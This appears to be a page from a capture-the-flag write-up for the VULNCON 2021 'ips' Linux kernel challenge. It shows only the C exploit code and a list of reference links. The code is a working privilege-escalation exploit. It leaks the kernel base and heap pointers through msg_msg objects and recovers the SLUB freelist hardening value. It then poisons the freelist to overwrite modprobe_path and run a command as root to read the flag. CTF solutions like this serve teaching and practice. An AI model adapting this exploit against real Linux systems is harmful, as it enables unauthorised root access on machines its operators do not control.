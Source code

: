 ```c
    struct memIPS{
        size_t next;
        size_t offset;
        size_t found;
    } mem[0x10];
    memset(mem,0,sizeof(mem));
    size_t kernel_text = 0;
    for(int i =0 ;i<0x200-2;i++){
        int idx = i+1;
        size_t value = *(size_t *)(&msg_ctx[idx*8]);
        // info(value);
        if(value==0x6969696969696969){
            size_t meta = *(size_t *)(&msg_ctx[i*8]);
            size_t ips_idx = (meta&0xff);
            mem[ips_idx].offset = i*8-8+0x30;
            mem[ips_idx].next = *(size_t *)(&msg_ctx[i*8-8]);
            mem[ips_idx].found = 1;
        }
        if((value&0xfff)==0x9a0){
            kernel_text = value;
        }

    }
    if(kernel_text==0)
        panic("[!] Can't Leak Kernel Text");
    else
        kernel_text -= 0x16429a0;
    
    size_t victim_addr  = 0;
    size_t leaker       = 0;
    size_t offFreelist= 0;
    
    for(int i=0;i<0x10;i++){
        if(mem[i].found == 1 && mem[i+1].found==1){            
            victim_addr = mem[i].next-mem[i+1].offset+mem[i].offset;
            leaker = mem[i].next+0x40;
            del(i);  // Free mem[i]
            del(i+1);// Free mem[i+1]
            offFreelist = mem[i+1].offset;
            break;
        }
    }
    if(offFreelist==0)
        panic("[!] Not able to find IPS objects.");
    
    msgid1 = msgGet();
    msg = msgRecv(msgid2,0x1000);
    msgSend(msgid1,"Wat",0x50); // Refil
    size_t  *leakedFd= msg->mtext+offFreelist+0x10;
    size_t magic = (*leakedFd)^(victim_addr)^(swab(leaker)); //Leak Magic
    info(magic);
    size_t modprobe = 0x144fa20+kernel_text;
    info(kernel_text);
    edit(-1,strcat(dpn('\xff',18,18+8),p64(leaker-0x40+0x10)));
    msgid2 = msgGet();
    msg = msgRecv(msgid1,1);
    msgSend(msgid2,strcat(dpn('\xff',0xfd0+0x28,0xfd0+0x78),p64(magic^swab(leaker)^(modprobe-0x10))),0xfd0+0x78);
    add(ctx,1);
    add(ctx,2);
    add(strcat(dpn('\xff',0x2,0x60),"/home/user/n132"),3);
    modprobeAtk("/home/user/","cat /flag > /n132");
    system("cat /n132");
```

[0]: https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/
[1]: https://kileak.github.io/ctf/2021/vulncon-ips/
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips
[6]: https://n132.github.io/2024/02/09/IPS.html
[7]: https://elixir.bootlin.com/linux/latest/C/ident/freelist_ptr_encode